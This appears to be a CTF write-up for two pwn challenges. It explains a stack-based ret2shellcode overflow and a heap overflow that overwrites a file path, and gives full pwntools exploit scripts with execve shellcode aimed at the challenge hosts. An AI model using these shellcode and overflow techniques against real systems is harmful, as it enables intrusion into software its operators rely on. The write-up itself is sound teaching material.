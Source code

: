 ## Pwn/MorseCode Encoder

### Initial Analysis

![image](https://github.com/user-attachments/assets/75fea0e5-d9df-44c0-a4ff-e240702dae63)

All of the security protections have been turned off (except ASLR of course).

![image](https://github.com/user-attachments/assets/630985d6-ce73-4b4a-b719-ad06f6062481)

When running the binary, we can see that it leaks out the address of our buffer, which is located in the stack memory region. The challenge is screaming ret2shellcode since we are given the address of the buffer and NX (No eXecute) protection is turned off. NX is a protection which prevents execution of shellcode in the stack. So, the basic idea is to inject shellcode into the buffer and overwrite the saved return address to point to our shellcode.

![image](https://github.com/user-attachments/assets/b1ceda87-4725-4f2f-8790-e51fc736bb5b)

However, when you overwrite the values which are popped into ecx, ebx and ebp, it will affect where the return goes to due to `lea esp, [ecx-0x4]`. So, we need to control the value of ecx since it will be moved into esp and control our return address.

![image](https://github.com/user-attachments/assets/0c379971-a400-413b-97bc-604b0818d413)

Just 12 bytes below our input, there is a pointer to our buffer. So, that will be our target. Now, we just need a shellcode. You can use msfvenom, shellcraft or find it online. I used shellcode from https://shell-storm.org/shellcode/files/shellcode-811.html

### Solve Script

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./morse-converter')
libc = exe.libc

host = "morsecode-encoder.ihack24.capturextheflag.io"
port = 1337

gdb_script = '''
b *main+141
c
'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
# p = gdb.debug('./morse-converter', gdbscript = gdb_script)

offset = 1024

sc = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

ru(b"address: ")
leak = int(r(10), 16)
tar = leak - 0x10

payload = sc.rjust(1024, b"\x90")
payload += p32(tar+8) * 10

sla(b"Enter]: ", payload)

p.interactive()
```

![image](https://github.com/user-attachments/assets/4856326e-f2e0-48ee-ae31-4c1bf492e4e5)

## Pwn/EtcPasswd Reader

### Initial Analysis

![image](https://github.com/user-attachments/assets/4f5cc698-593f-470a-96aa-8cf7132132a2)

Opening the binary in Ghidra, we can see that there is a buffer overflow with the gets() function inside the heap memory region due to the use of `malloc(0x40)`. Then, there is a second chunk allocated which contains the path `/etc/passwd`. So the goal is simple, bof enough until we reach the 2nd chunk and overwrite with the path to the flag. 

```
└─$ cat Dockerfile 
FROM ubuntu:22.04
ENV LC_CTYPE C.UTF-8
ENV DEBIAN_FRONTEND=noninteractive

<-- setup snippet -->

# flag location: /flag/secretflag/flag

CMD ["/start.sh"]

EXPOSE 9997
```

In the dockerfile, we can find the path to the flag. Before we go into exploitation, we need a little understanding about a [heap structure](https://sourceware.org/glibc/wiki/MallocInternals) first.

![image](https://github.com/user-attachments/assets/f4f8bc26-3782-4c63-8e3e-ce7cd50f149a)

The image above shows the structure of a heap chunk when we allocate it. The payload area is the location where we can store data. Above the payload, there is some metadata about the heap chunk. For example, the size of the chunk and also some flags (AMP) needed for internal functions. We can verify this by taking a look in gdb.

![image](https://github.com/user-attachments/assets/0c65f0a9-c44b-40ee-99ea-e92f6001e086)

We can see both of our chunks here. 0x51 is the size of the chunk because we malloc 0x40, another 0x10 comes from the header metadata, and 0x1 is the flag PREV_IN_USE. After the size, we have the user input `aaaaaaaa`. Below this chunk, we have the chunk for the file path `/etc/passwd`. Now we know, we need to write 0x50 bytes before we start overwriting the file path. There's one more thing left to do, which is to bypass the strcmp(). We can easily do that by sending `b"P$s5w0rd_53CurE_A8S8A9DF7239FSD0\x00"` followed by more user input. This is possible because gets() only stops taking user input after it receives `\n`, not `\x00`. This will bypass strcmp() as it only compares null terminated strings.

### Exploit Script

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./etcpasswd-reader')
libc = exe.libc

host = "etc-passwd-reader.ihack24.capturextheflag.io"
port = 1337

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

secret = b"P$s5w0rd_53CurE_A8S8A9DF7239FSD0\x00"

payload = secret
payload += b"A" * (80-len(secret))
payload += b"/flag/secretflag/flag"

sla(b"details: ", payload)

p.interactive()
```

![image](https://github.com/user-attachments/assets/13671dba-338d-4dc9-ae19-ceba88593c7b)
